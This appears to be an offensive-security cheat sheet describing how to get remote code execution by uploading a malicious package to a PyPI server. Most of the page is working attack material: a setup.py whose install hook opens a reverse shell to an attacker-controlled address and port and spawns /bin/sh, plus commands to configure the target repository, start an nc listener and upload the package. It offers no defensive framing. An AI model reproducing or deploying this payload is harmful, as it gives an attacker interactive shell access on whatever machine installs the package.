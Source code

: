 ```yaml
---
title: "Pypi"
date: 2024-7-19
tags: ["python", "pypi", "package", "rce"]
---
```


### Abuse #1: Remote Pypi Server

#### 1. Create files

<div>

```console
mkdir evil_package
```

```console
mkdir evil_package/evil_package
```

```console
cd evil_package
```

```console
touch README.md
```

```console
touch evil_package/__init__.py
```

```console
touch setup.cfg
```

```console
touch setup.py
```

</div>

#### 2. Replace setup.py

<div>

```console
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<LOCAL_IP>",<LOCAL_PORT>)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(name="evil_package",
      version="1.0.0",
      description="Evil Package",
      author="user",
      author_email="user@<DOMAIN>",
      url="http://<DOMAIN>",
      license="MIT",
      zip_safe=False,
      cmdclass={"install": Exploit})
```

</div>

#### 3. Create ~/.pypirc

<div>

```console
[distutils]
index-servers =
  <EXAMPLE>
[<EXAMPLE>]
repository: http://<TARGET_DOMAIN>
username: <USER>
password: <PASSWORD>
```

</div>

#### 4. Exploit

<div>

```console
# Open a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

</div>

<br>

<div>

```console
# Create an archive
python3 setup.py sdist
```

```console
# Upload
python3 setup.py sdist upload -r <EXAMPLE>
```

</div>

<br>